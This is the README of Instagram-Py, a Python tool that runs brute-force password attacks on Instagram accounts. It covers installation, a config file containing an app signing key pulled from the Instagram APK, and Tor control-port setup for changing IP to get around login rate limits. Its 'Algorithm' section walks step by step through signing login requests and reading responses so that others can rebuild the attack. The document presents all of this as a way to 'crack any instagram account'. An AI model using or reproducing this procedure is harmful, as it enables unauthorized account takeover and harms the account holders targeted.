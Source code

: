 ==============
 Instagram-Py 
==============
.. image:: https://img.shields.io/github/issues/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/issues

.. image:: https://img.shields.io/github/forks/deathsec/instagram-py.svg?style=flat-square   
      :target: https://github.com/deathsec/instagram-py/network
      
.. image:: https://img.shields.io/github/stars/deathsec/instagram-py.svg?style=flat-square
      :target: https://github.com/deathsec/instagram-py/stargazers

.. image:: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square   
      :target: https://raw.githubusercontent.com/deathsec/instagram-py/master/LICENSE

..

    | Instagram-py performs slick brute force attack on Instagram without any type of password limiting
    | and also resumes your attack in ease. 
    
    --DeathSec

  
.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/preview.png

.. image:: http://forthebadge.com/images/badges/built-with-love.svg
      :target: #
.. image:: http://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg
      :target: #
      
.. image:: http://forthebadge.com/images/badges/made-with-python.svg
      :target: #
|
| **Instagram-Py** is a simple python script to perform basic **brute force** attack against **Instagram** ,   
| this script can **bypass** login limiting on wrong passwords ,  so basically it can test **infinite number of passwords**.
| Instagram-Py is **proved** and can test **over 6M** passwords on a single instagram account with **less resource** as possible
| This script mimics the activities of the official **instagram android app** and sends request over **tor** so you are secure ,
| but if your **tor** installation is **misconfigured** then the blame is on you.

|
**Depends on**: python3 , tor ,  requests , requests[socks] , stem

==============
 Installation
==============

-------------------------------
 using pip to get Instagram-py
-------------------------------

**Make sure you have got the latest version of pip(>= 9.0 and python(>= 3.6)**

::

 $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip
 $ sudo pip3 install requests --upgrade
 $ sudo pip3 install requests[socks]
 $ sudo pip3 install stem
 $ sudo pip3 install instagram-py
 $ instagram-py # installed successfully
 $ # Now lets copy the config file to your hard drive!
 $ wget -O ~/instapy-config.json "https://git.io/v5DGy"

------------------------------
    Configuring Instagram-Py
------------------------------

Open your configuration file found in your home directory , this file is **very important**
located at **~/instapy-config.json** , do not change anything except tor configuration

::

 $ vim ~/instapy-config.json # open it with your favorite text editior!

**The configuration file looks like this**

::

 {
  "api-url" : "https://i.instagram.com/api/v1/",
  "user-agent" : "Instagram 10.26.0 Android (18/4.3; 320dp..... ",
  "ig-sig-key" : "4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178",
  "ig-sig-version" : "4",
  "tor" : { 
     "server" : "127.0.0.1",
     "port" : "9050",
     "protocol" : "socks5",
     "control" : {
           "password" : "",
           "port" : "9051"
       }
   }
    
 }


**api-url** : do not change this unless you know what you are doing

**user-agent** : do not change this unless you know your stuff

**ig-sig_key** : never change this unless new release, this is extracted from the instagram apk file

**tor** : change everything according to your tor server configuration , do not mess up!

--------------------------------------------
 Configuring Tor server to open control port
--------------------------------------------

open your **tor configuration** file usually located at **/etc/tor/torrc**
::
 
 $ sudo vim /etc/tor/torrc # open it with your text editor
 

**search** for the file for this **specific section**

::

 ## The port on which Tor will listen for local connections from Tor
 ## controller applications, as documented in control-spec.txt.
 #ControlPort 9051
 
**uncomment** 'ControlPort' by deleting the **#** before 'ControlPort' , **now save the file and restart your tor server**

**now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json** 

=============
    Usage
=============

**Finally** , now you can use instagram-py!

::

 $ instagram-py your_account_username path_to_password_list


===========
 Algorithm
===========

**Instagram-Py** uses a very simple algorimthm for checking passwords efficiently , this section is dedicated for those who
wish to recreate this program in any other language.

-------------
 What we do
-------------

**Step 1:** Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=** , where the **guid** get parameter is a random 32 character string.
The random 32 character string can be generator using python's simple **uuid library** , to be specific **v4** of **UUID**.
So finally we just have to request the url **https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb** and get the cookie named **csrftoken** , if we observe the **response header** we
could see that our cookie only **expires** next **year** the same day. So by this we only have to make this request once
and can use it for a year! How vulnerable is that?... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png 
      :target: #


**Step 2:** Build a post request with Instagram's signature.

This part is **simple** but may be difficult to setup , first i need to get instagram's signature
which is only present in their free apk from google play , Remember our **Strength can be our Weakness**
, All i have to do reverse engineer the apk and find the signature, lets call it **ig_sig**.

::
 
 ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
 ig_version = 4

**Instagram** uses **HMAC Authentication** for login stuff, so lets use python's **hmac library**.
But first we have to build our body which will be encoded in json for it to actually sign with 
**ig_sig** , So the post **body** looks likes this...


::
 
 phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 _csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
 username   = <TARGET ACCOUNT>
 guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
 device_id  = android-<RANDOM 16 CHARACTER STRING>
 password   = <PASSWORD TO TRY>
 login_attempt_count = 0


The above will be encoded to **JSON** , So to test the password we have to post the data to this url
**https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA>** .

**<SIGNED BODY>:** using **HMAC** , sign our json encoded data with **ig_sig** and return a hexa value.

**<URL ENCODED JSON DATA>:** the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as **USERNAME** and password with **PASSWORD** we simply request this
url **https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D** 

**Take a look** how I did it... 

.. image:: https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png


**Step 3:** With the json response and response code , we determine the password is correct or wrong.

if **We get response 200** then the login is success but if we get **response 400** , We inspect the
**json data** for clues if it is the **correct password or invalid request or too many tries**.
So we inspect the **message** from instagram json response!

**Message = Challenge Required** , then the password is correct but instagram got some questions so
we must wait until the user logs in and answer the question and if we are lucky they will not change
the password and we could login in later(**Most of the time people won't change the password!**)

**Message = The password you entered is incorrect.** , then the password is incorrect for sure , try
another.

**Message as something like word invalid in it then** , some other error so just try again, can happen
because of wordlist encoding error which i ignored because all the worldlist have encoding error!

**Message = Too many tries** , Time to change our ip and loop but we don't want to change our magic cookie

**Thats it you just hacked instagram with a very simple algorithm!**

=============
   License
=============

The MIT License,

Copyright (C) 2017 The Future Shell , DeathSec
